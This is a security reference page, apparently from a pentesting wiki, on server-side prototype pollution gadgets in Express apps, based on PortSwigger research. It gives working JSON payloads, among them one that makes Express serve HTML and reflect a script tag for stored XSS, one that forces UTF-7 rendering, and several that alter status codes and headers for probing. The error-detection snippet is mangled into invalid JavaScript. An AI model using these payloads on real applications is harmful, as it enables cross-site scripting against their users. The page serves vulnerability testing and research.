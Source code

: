 ```yaml
---
layout: page
title: Express Prototype Pollution Gadgets
category: nodejs
toc:
  sidebar: left
---
```


## Serve XSS responses

**For further details** [**take a look to the original reserach**](https://portswigger.net/research/server-side-prototype-pollution)

<br>

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({ type: "application/json" }));
app.post("/", function (req, res) {
  _.merge({}, req.body);
  res.send(req.body);
});
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

<br>

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```

## Safe Scanning Techinques

<br>

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{ "__proto__": { "json spaces": " " } }
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

<br>

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```

It requires the **CORS module to be installed**

<br>

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

<br>

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{ "__proto__": { "status": 510 } }
```

<br>

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
({}).__proto__.__proto__ = {}(
  //throws type exception
  {}
).__proto__.__proto__ = "x"; //no-op does not throw exception
```

<br>

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{ "unusualName": "value", "__proto__": "test" }
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

<br>

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{ "__proto__": { "allowDots": true } }
```

**`?foo.bar=baz` create an object in Node.**

## References

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)
